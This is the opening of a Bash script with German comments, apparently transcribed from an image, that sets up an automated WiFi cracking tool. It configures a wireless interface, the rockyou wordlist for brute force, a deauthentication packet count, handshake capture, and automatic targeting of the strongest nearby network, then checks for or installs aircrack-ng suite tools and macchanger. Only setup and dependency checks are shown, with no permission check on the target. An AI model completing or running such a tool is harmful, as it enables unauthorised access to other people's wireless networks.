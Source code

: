 # Konfigurationsparameter (können vor der Ausführung angepasst werden)
INTERFACE="wlan0"                                # Zu verwendende WLAN-Schnittstelle
WORDLIST="/usr/share/wordlists/rockyou.txt"      # Wörterbuch für Brute-Force
SCAN_TIME=30                                     # Zeit in Sekunden für den Netzwerkscan
DEAUTH_COUNT=10                                  # Anzahl der Deauthentifizierungspakete
CAPTURE_TIME=300                                 # Wireshark-Aufzeichnungsdauer in Sekunden
TARGET_CHANNEL=""                                # Leer lassen für automatische Auswahl des stärksten Netzwerks
TARGET_BSSID=""                                  # Leer lassen für automatische Auswahl des stärksten Netzwerks
OUTPUT_DIR="$HOME/auto_wifi_hack"                # Ausgabeverzeichnis

# Farben für bessere Lesbarkeit
RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[0;33m'
NC='\033[0m' # No Color

# Erstelle Ausgabeverzeichnisse
mkdir -p "$OUTPUT_DIR/handshakes"
mkdir -p "$OUTPUT_DIR/wireshark_captures"
mkdir -p "$OUTPUT_DIR/logs"

# Logdatei
LOG_FILE="$OUTPUT_DIR/logs/$(date +"%Y%m%d_%H%M%S").log"

# Logging-Funktion
log() {
    echo -e "$(date +"%Y-%m-%d %H:%M:%S") - $1" | tee -a "$LOG_FILE"
}

# Überprüfe Root-Rechte
if [ "$(id -u)" -ne 0 ]; then
    log "${RED}Dieses Skript muss mit Root-Rechten ausgeführt werden.${NC}"
    exit 1
fi

# Überprüfe Abhängigkeiten
check_dependencies() {
    log "${YELLOW}Überprüfe Abhängigkeiten...${NC}"
    for cmd in airmon-ng airodump-ng aireplay-ng aircrack-ng wireshark tshark macchanger; do
        which $cmd > /dev/null 2>&1
        if [ $? -ne 0 ]; then
            log "${RED}$cmd ist nicht installiert. Installation wird versucht...${NC}"
            apt-get update && apt-get install -y $cmd
            if [ $? -ne 0 ]; then
                log "${RED}Installation von $cmd fehlgeschlagen. Bitte manuell installieren.${NC}"
                exit 1
            fi
        fi
    done
    log "${GREEN}Alle Abhängigkeiten sind vorhanden.${NC}"
}
